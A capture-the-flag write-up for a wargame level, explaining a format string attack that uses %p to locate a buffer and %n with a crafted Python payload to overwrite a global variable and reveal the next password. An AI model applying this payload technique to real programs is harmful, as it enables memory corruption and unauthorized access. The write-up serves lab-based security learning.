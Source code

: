 ## Press printf's f for fun and profit episode II (level4)

This level's [binary](level4/source.c) is once again fairly similar to the last
one. It takes user input and prints it back to stdin. Here the input buffer is
also directly given to printf, which means we can perform an other
[format string attack](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b). We also still have the same _m_ global variable that needs to be set to a
given value to pass a condition. This time, the binary will directly print the
next level's password if _m_ equals 0x1025544 (16930116).

So first, let's get _m_'s address:

```shell
# run gdb on the binary
gdb ./level4
# get the address
(gdb) i addr m
Symbol "m" is at 0x8049810 in a file compiled without debugging.
```

Now we can try adding some conversions to the format string to pop random values
from a stack and when we reach our buffer:

```shell
aaaabbbbccccdddd %p %p %p %p %p %p %p %p %p %p %p %p %p | ./level4
aaaabbbbccccdddd 0xb7ff26b0 0xbffffb84 0xb7fd0ff4 (nil) (nil) 0xbffffb48 0x804848d 0xbffff940 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x62626262
```

We start reaching our buffer at the 12'th conversion. Now we need to find a way
to make printf's output 16930116 characters long. The best way to do that is to
use * to pass an int argument from the stack as a field width specifier.

Here's the magic payload:

```shell
# feed the exploit payload to the binary
python -c 'print "\x01\x02\x54\xda"[::-1] + 4 * "a" + "\x08\x04\x98\x10"[::-1] + "%p%p%p%p%p%p%p%p%p%p%p%0*p%n"' | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

It works. The first value here is the number is last p conversion's field width.
This is the number we want to write in _m_ minus the length of the string
returned by printf. Then we have 4 padding bytes for the last %p conversion, and
then the address of _m_ we pass to %n.
